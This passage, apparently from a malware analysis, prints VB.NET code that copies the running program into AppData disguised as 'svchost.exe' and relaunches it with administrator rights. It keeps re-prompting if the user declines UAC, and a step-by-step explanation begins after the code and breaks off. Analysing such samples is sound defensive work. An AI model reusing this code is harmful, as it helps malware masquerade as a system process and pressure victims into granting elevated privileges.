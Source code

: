 It copy the current executable to a specified location and attempt to run it with administrative privileges. 

```
Private Shared processName As String = "svchost.exe"

Private Shared Sub copyResistForAdmin(processName As String)
	Dim friendlyName As String = AppDomain.CurrentDomain.FriendlyName
	Dim location As String = Assembly.GetExecutingAssembly().Location
	Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\" + friendlyName
	Dim text As String = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\"
	Dim text2 As String = text + processName
	Dim processStartInfo As ProcessStartInfo = New ProcessStartInfo(text2) With { .UseShellExecute = True, .Verb = "runas", .WindowStyle = ProcessWindowStyle.Normal, .WorkingDirectory = text }
	Dim process As Process = New Process()
	process.StartInfo = processStartInfo
	If friendlyName <> processName OrElse location <> text2 Then
		If Not File.Exists(text2) Then
			File.Copy(friendlyName, text2)
			Try
				Process.Start(processStartInfo)
				Environment.[Exit](1)
				Return
			Catch ex As Win32Exception
				If ex.NativeErrorCode = 1223 Then
					Program.copyResistForAdmin(processName)
				End If
				Return
			End Try
		End If
		Try
			File.Delete(text2)
			Thread.Sleep(200)
			File.Copy(friendlyName, text2)
		Catch
		End Try
		Try
			Process.Start(processStartInfo)
			Environment.[Exit](1)
		Catch ex2 As Win32Exception
			If ex2.NativeErrorCode = 1223 Then
				Program.copyResistForAdmin(processName)
			End If
		End Try
	End If
End Sub
```
1.  ***Getting Basic Information:***
    
    -   Retrieves the name of the current executable (`friendlyName`).
    -   Gets the location of the currently executing assembly (`location`).
    -   Defines paths in the Startup folder and Application Data folder.
2.  ***Preparing to Copy and Execute:***
    